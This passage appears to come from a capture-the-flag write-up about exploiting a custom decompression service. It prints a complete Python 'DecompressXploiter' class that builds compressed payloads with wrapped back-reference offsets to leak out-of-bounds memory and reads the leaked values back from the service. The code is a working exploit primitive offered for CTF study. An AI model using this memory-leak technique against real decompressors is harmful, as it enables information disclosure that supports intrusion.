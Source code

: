 So it seems that we can indeed insert literal 0xff, although the compression algorithm maybe does not make use of it? (In the beginning I have shown that the compression with 0xff in it gives errors)

# Xploiter class

I am very proud of it so I will show the code of the class directly in the writeup 😃

```python
class DecompressXploiter():
    def __init__(self):
        self.__magic = b'54494e59'
        self.__payload = b''
        self.__numbytes = 0
        self.__end = b'ff0000'
        self.__leaks = []
        
    def leak(self, offset, num=8):
        length = 2**64-offset if offset > 0 else abs(offset)
        patternlen = make_length(length + self.__numbytes)
        leaklen = make_length(num)

        self.__leaks.append(self.__numbytes)
        self.__numbytes += num
        self.__payload += b'ff' + patternlen + leaklen
        
    def pad(self, num):
        self.__payload += b'aa'*num
        self.__numbytes += num

    def add(self, b):
        assert(b'\xff' not in b)
        self.__payload += b.hex().encode()
        self.__numbytes += len(b)
        
    def chain(self):
        return self.__magic + self.__payload + self.__end
    
    def cycle(self, begin, numb):
        patternlen = make_length(self.__numbytes - begin)
        towrite = make_length(numb)
        self.__payload += b'ff' + patternlen + towrite
        self.__numbytes += numb
        
    def len(self):
        return self.__numbytes
    
    def __call__(self, io):
        io.recvuntil(b'What')
        io.sendline(b'2')
        io.recvuntil(b'Send me the hex')
        io.sendline(self.chain())
        io.recvuntil(b'decompresses to:\n')
        
        leaks = []
        nread = 0
        for offset in self.__leaks:
            io.recvn(offset*2 - nread*2) # hex is 2 digits for 1 byte
            leaks.append(reversed_hex(io.recvn(8*2)))
            nread += offset + 8
            
        return leaks
```
